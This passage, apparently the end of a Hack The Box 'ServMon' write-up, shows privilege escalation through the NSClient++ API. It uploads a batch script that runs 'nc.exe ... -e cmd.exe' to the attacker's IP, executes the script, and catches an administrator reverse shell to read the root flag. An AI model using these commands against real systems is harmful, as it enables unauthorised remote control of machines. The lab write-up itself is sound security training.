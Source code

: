     :::text
    nadine@SERVMON C:\Temp>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/me.bat --data-binary "C:\Temp\nc.exe 10.10.14.200 443 -e cmd.exe"
    Enter host password for user 'admin':
    Added me as scripts\me.bat
    nadine@SERVMON C:\Temp>curl -s -k -u admin https://localhost:8443/api/v1/queries
    Enter host password for user 'admin':
    [{"description":"Check status of scheduled jobs.","metadata":{},"name":"check_tasksched","query_url":"https://localhost:8443/api/v1/queries/check_tasksched/","title":"check_tasksched"},{"description":"Legacy version of check_tasksched","m
    etadata":{},"name":"checktasksched","query_url":"https://localhost:8443/api/v1/queries/checktasksched/","title":"CheckTaskSched"},{"description":"External script: scripts\\me.bat","metadata":{},"name":"me","query_url":"https://localhost:8
    443/api/v1/queries/me/","title":"me"},{"description":"External script: scripts\\rvsh.bat","metadata":{},"name":"rvsh","query_url":"https://localhost:8443/api/v1/queries/rvsh/","title":"rvsh"}]

Then we run a listener on our box and at the same time we call our command. This
give a shell as administrator on the box and we are able to retrieve the root
flag.

    :::text
    nadine@SERVMON C:\Temp>curl -s -k -u admin "https://localhost:8443/api/v1/queries/me/commands/execute?time=3m"
    Enter host password for user 'admin':

    kali@kali:~/pown/htb_servmon/srv$ sudo nc -l -p 443
    Microsoft Windows [Version 10.0.18363.752]
    (c) 2019 Microsoft Corporation. All rights reserved.

    C:\Program Files\NSClient++>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    f16c1d179c239f4ffe2ea0821759198b

# Wrapping up

What a pain. The box was really unstable on public servers. At the end the box
is not really difficult.
